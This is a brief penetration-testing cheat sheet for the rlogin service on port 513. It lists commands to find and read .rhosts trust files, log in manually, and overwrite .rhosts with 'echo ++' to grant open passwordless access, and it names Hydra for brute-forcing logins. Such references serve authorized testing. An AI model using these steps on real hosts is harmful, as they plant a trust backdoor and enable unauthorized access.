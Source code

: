 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
rlogin (Port 513)

Rlogin Enumeration
    Find the files
        find / -name .rhosts
        locate .rhosts
    Examine Files
        cat .rhosts
    Manual Login
        rlogin hostname -l username
        rlogin <IP>
    Subvert the files
        echo ++ > .rhosts
Rlogin Brute force
    Hydra